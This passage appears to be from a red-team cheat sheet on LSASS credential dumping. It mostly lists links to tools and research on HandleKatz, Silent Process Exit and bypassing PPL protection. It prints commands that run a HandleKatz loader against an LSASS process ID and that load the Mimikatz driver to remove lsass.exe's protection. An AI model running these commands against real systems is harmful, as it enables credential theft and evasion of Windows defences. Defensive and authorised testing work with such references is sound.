 

### HandleKatz

- [https://github.com/codewhitesec/HandleKatz](https://github.com/codewhitesec/HandleKatz)

```
$ x86_64-w64-mingw32-gcc -o loader.exe loader.cpp -lcrypt32
Cmd > .\loader.exe --pid:852 --outfile:C:\Windows\Temp\dump.obfuscated
```



### LetMeowIn

- [https://github.com/Meowmycks/LetMeowIn](https://github.com/Meowmycks/LetMeowIn)




## Silent Process Exit

* [https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/](https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/)
* [https://github.com/deepinstinct/LsassSilentProcessExit](https://github.com/deepinstinct/LsassSilentProcessExit)
* [https://github.com/lengjibo/RedTeamTools/tree/master/windows/LsassSilentProcessExit](https://github.com/lengjibo/RedTeamTools/tree/master/windows/LsassSilentProcessExit)
* [https://github.com/CompassSecurity/PowerLsassSilentProcessExit](https://github.com/CompassSecurity/PowerLsassSilentProcessExit)
* [https://gitlab.com/KevinJClark/csharptoolbox/-/blob/master/ShhProcessExit.cs](https://gitlab.com/KevinJClark/csharptoolbox/-/blob/master/ShhProcessExit.cs)




## Remove PPL Protection

- [https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html](https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html)
- [https://itm4n.github.io/lsass-runasppl/](https://itm4n.github.io/lsass-runasppl/)
- [https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland/](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland/)
- [https://github.com/itm4n/PPLdump](https://github.com/itm4n/PPLdump)
- [https://itm4n.github.io/the-end-of-ppldump/](https://itm4n.github.io/the-end-of-ppldump/)
- [https://github.com/RedCursorSecurityConsulting/PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller)
- [https://tastypepperoni.medium.com/running-exploit-as-protected-process-ligh-from-userland-f4c7dfe63387](https://tastypepperoni.medium.com/running-exploit-as-protected-process-ligh-from-userland-f4c7dfe63387)
- [https://github.com/tastypepperoni/RunAsWinTcb](https://github.com/tastypepperoni/RunAsWinTcb)

Using Mimikatz driver:

```
PS > sc.exe create mimidrv binPath= C:\Windows\Tasks\mimidrv.sys type= kernel start= demand
PS > sc.exe start mimidrv
PS > Invoke-Mimikatz -Command '"!processprotect /process:lsass.exe /remove" "exit"'
```
